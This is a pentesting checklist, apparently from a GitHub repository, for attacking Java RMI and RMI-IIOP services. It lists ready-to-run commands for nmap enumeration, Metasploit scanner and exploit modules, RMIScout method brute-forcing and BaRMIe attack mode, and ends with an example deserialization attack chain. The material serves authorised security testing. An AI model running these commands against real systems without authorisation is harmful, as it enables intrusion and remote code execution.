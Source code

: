 # ☕ Java RMI / RMI-IIOP Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating Java RMI (ports 1098, 1099, 1050), I realistically expect to find:

- [ ] Registry contents with bound object names
- [ ] Exposed remote methods that accept serialized input
- [ ] Insecure Java deserialization leading to RCE
- [ ] Service banner revealing Java version or framework
- [ ] Vulnerable default configurations or endpoints

---

## ✅ Java RMI Pentest Checklist

- [ ] **Service Detection & Banner Grabbing**
  - Identify the RMI service and version.
    ```
    nmap -sV -p1099,1098,1050 <IP>
    ```
  - Dump registry contents and check for known vulns.
    ```
    nmap --script "rmi-dumpregistry or rmi-vuln-classloader" -p 1099 <IP>
    ```

- [ ] **Manual Registry Enumeration**
  - Check for bound objects and remote methods.
    ```
    rmidump <IP> 1099
    ```

- [ ] **Metasploit Enumeration**
  - Use Metasploit auxiliary scanners.
    ```
    use auxiliary/scanner/misc/java_rmi_server
    use auxiliary/gather/java_rmi_registry
    ```

- [ ] **Metasploit Exploitation**
  - Attempt deserialization attacks.
    ```
    use exploit/multi/misc/java_rmi_server
    ```

- [ ] **Brute-Forcing Method Signatures**
  - Use RMIScout to identify available methods safely.
    ```
    python rmiscout.py --target <IP>:1099 --enum
    ```
  - Provide custom wordlists for better guessing.
    ```
    --methods methods.txt --prototypes prototypes.txt
    ```

- [ ] **BaRMIe for Enumeration & Exploitation**
  - Enumerate and attack RMI endpoints.
    ```
    java -jar BaRMIe_v1.01.jar -enum <IP> <PORT>
    java -jar BaRMIe_v1.01.jar -attack <IP> <PORT>
    ```

---

## ✅ RMI-IIOP Pentest Checklist

- [ ] **Service Identification**
  - Look for Java RMI-IIOP on default or adjacent ports.
  - Confirm via banners or nmap output.

- [ ] **Brute-Force Method Signatures**
  - Aware of risk of triggering real methods.
  - RMIScout for IIOP signatures.
    ```
    python rmiscout.py --target <IP>:<PORT> --iiop
    ```
  - Avoid parameter-less methods unless explicitly safe.
    ```
    --allow-unsafe
    ```

---

## ✅ Exploitation Tools

- **BaRMIe**
  - RMI enumeration and exploitation framework.
    ```
    https://github.com/NickstaDB/BaRMIe
    ```
- **RMIScout**
  - Safer signature brute-forcing with wordlists.
    ```
    https://github.com/BishopFox/rmiscout
    ```
- **sjet**
  - Advanced Java RMI and JMX exploitation toolkit.
    ```
    https://github.com/siberas/sjet
    ```

---

## ✅ Example Attack Chain

1️⃣ Enumerate registry contents.

```
nmap --script rmi-dumpregistry -p 1099 <IP>
```

2️⃣ Brute-force method signatures.

```
python rmiscout.py --target <IP>:1099 --enum
```

3️⃣ Exploit with known gadget chains.

```
java -jar BaRMIe_v1.01.jar -attack <IP> 1099
```









